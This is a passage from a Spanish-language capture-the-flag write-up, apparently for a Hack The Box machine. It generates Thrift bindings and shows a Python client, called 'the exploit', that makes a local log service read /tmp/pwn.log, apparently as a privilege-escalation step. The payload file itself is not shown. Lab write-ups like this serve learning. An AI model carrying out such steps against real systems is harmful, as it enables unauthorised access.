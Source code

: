 ```bash
thrift -r --gen py log_service.thrift
```

y se nos genera un directorio gen_py
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250103223806.png)

nos metemos dentro

y vamos hay vamos a crear el exploit que sera este:

```bash
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
import sys
sys.path.append('/home/zzero/caption/exploits/gen-py')
# Import the generated code
from log_service import LogService

def main():
    # Create a socket to the Thrift server
    transport = TSocket.TSocket('127.0.0.1', 9090)

    # Use a buffered transport for better performance
    transport = TTransport.TBufferedTransport(transport)

    # Use the binary protocol (consistent with Go server)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the protocol encoder
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    # Call the ReadLogFile method on the server
    file_path = "/tmp/pwn.log"
    result = client.ReadLogFile(file_path)

    # Print the result
    print(f"Server response: {result}")

    # Close the connection
    transport.close()

if __name__ == "__main__":
    main()
```

lo ejecutamos
y
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250103223937.png)


